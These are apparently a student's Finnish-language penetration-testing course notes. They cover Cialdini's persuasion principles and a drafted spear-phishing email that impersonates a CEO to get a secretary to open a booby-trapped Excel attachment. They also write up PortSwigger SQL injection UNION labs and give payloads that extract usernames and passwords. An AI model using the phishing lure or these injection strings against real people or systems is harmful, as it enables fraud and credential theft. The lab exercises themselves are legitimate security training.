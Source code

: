 ## Suostuttelun periaatteet


Vastavuoroisuusperiaate: Saat itsellesi jotain, jonka jälkeen sinulla on taipumus tehdä vuorostasi jotain muuta.

Sitoutumis- ja jatkuvuusperiaate: Feissari saa suostuteltua sinut kuukausilahjoittajaksi, kun olet sitoutunut tekemään lahjoituksen, sinulla on taipumus jatkaa sitä pitkään.

Sosiaalinen todiste: Festariliput menevät kuulemma kuumille kiville. Taitaa tulla todella suositut bileet. Sinulla on taipumus ostaa lippu nopeammin, koska haluat olla mukana ja osana suosittua kokemusta.

Auktoriteettiperiaate: Poliisi pysäyttää sinut liikenteessä ja antaa sakon. Sinulla on taipumus maksaa sakko ilman vastaväitteitä, koska uskot poliisin olevan auktoriteettihahmo ja haluat totella hänen määräyksiään.

Vakuuttamis- ja argumentointiperiaate: Myyjä esittelee sinulle uuden kameran, joka on helppo käyttää ja jolla saat upeita kuvia. Hän käyttää selkeitä esimerkkejä ja perusteluja, miksi kamera on hyvä ostos. Sinulla on taipumus ostaa kamera, koska olet vakuuttunut myyjän argumenteista.

Niukkuusperiaate: Kaupassa on ale, joka päättyy kohta ja jossa on vain pari hassua kappaletta jäljellä haluamastasi tuotteesta. Sinulla on taipumus tehdä ostopäätös nopeasti peläten tuotteen loppuvan ennen kuin ehdit ostaa sen.

source ( chat.openai.com - 'kerro cialdinin suostuttelun periaatteista')

## SQl UNION hyökkäys

- UNIONilla voi suorittaa useampia SELECT kyselyitä ja liittää ylimääräisen/ylimääräisten kyselyiden tulokset alkuperäiseen
- vaatii toimiakseen, että yksittäiset kyselyt palauttavat saman määrän sarakkeita ( column ) ja sarakkeiden tietotyypien on oltava yhteensopivia kyselyiden kanssa ( NULL sopii kaikkien kanssa )

## SQL cheatsheet

- kommentit -- tuplaviiva toimii useissa
- yhdistäminen || tai +

## Spear fishing

Matti -Maijan osaston pomo, ei kuitenkaan lähiesimies.

Maija - osaston sihteeri

Matti - TJ jota kukaan ei juuri koskaan tapaa mutta kaikki kunniottaa ( lue: pelkää )

Huomenta Maija,

Pekka tarvitsee viikottaiset myynnit osastoittain ennen iltapäivän palaveria uuden asiakkaan kanssa. Koostin jo koko yrityksen laajuiset tiedot oheiseen taulukkoon. Ehtisitkö poimia nuo osastokohtaiset myynnit pian, mielellään heti, että Pekka ehtii tutustua niihin ennen kokousta. 

Laitatko vaikka minulle heti kun on valmista.

liite: excel with a twist

Kiitos etukäteen,
Matti

Käytetty auktoriteettiperiaatetta tuplana, koska palvelusta pyytää ( ja vielä hienovaraisesti käskee ) pomo, joka on tekemässä palvelusta vieläkin isommalle pomolle. Lisäksi käytetty kiirettä ( niukkuusperiaate ).

## Portswigger labs

###  SQL injection UNION attack.

![union](https://github.com/t-t-r/Penetration-testing-course-2023/blob/main/img/union1.jpg)
![union2](https://github.com/t-t-r/Penetration-testing-course-2023/blob/main/img/union2.jpg)

### SQL injection UNION attack, finding a column containing text

Etsin sarakkeiden määrän, kuten edellisessä tehtävässä. Seuraavaksi testasin missä sarakkeessa tyyppinä teksijono. Ensimmäisessä ei, toisessa tärppäsi.

![union](https://github.com/t-t-r/Penetration-testing-course-2023/blob/main/img/union3.jpg)
![union](https://github.com/t-t-r/Penetration-testing-course-2023/blob/main/img/union4.jpg)
![union](https://github.com/t-t-r/Penetration-testing-course-2023/blob/main/img/union5.jpg)

### SQL injection UNION attack, retrieving data from other tables

Koska tehtävänannossa kerrotaan että on olemassa sarakkeet username ja passsword sekä taulu users kokeilin ensin suoraan näillä, mutta syntaksi väärin. Toisella yrittämällä sain salasanat näkyviin, mutta jostain syystä edelleen 'not solved'

![union](https://github.com/t-t-r/Penetration-testing-course-2023/blob/main/img/union7.jpg)
![union](https://github.com/t-t-r/Penetration-testing-course-2023/blob/main/img/union8.jpg)

### SQL injection UNION attack, retrieving multiple values in a single column

Ensin tarkistin sarakkeiden lkm. 

    'union+select+null--' -> error
    'union+select+null,null--' -> ok

Seuraavaksi selvitin kumman sarakkeen tietotyyppi on merkkijono

    'union+select+'null',null-- -> error
    'union+select+null,'null'-- -> ok

Sitten listasin käyttäjänimet

    'union+select+null,username from users-- -> ok, näkyviin tuli käyttäjänimiä

![union](https://github.com/t-t-r/Penetration-testing-course-2023/blob/main/img/union10.jpg)

Seuraavaksi pitäisi saada palautettua käyttäjänimien perään yhdistettynä salasanat. Selvyyden vuoksi tuohon voisi lisätä vielä merklin erottamaan salasana ja käyttäjänimi toisistaan. 

    'union+select+null,username||password from users--

![union](https://github.com/t-t-r/Penetration-testing-course-2023/blob/main/img/union15.jpg)
![union](https://github.com/t-t-r/Penetration-testing-course-2023/blob/main/img/union16.jpg)
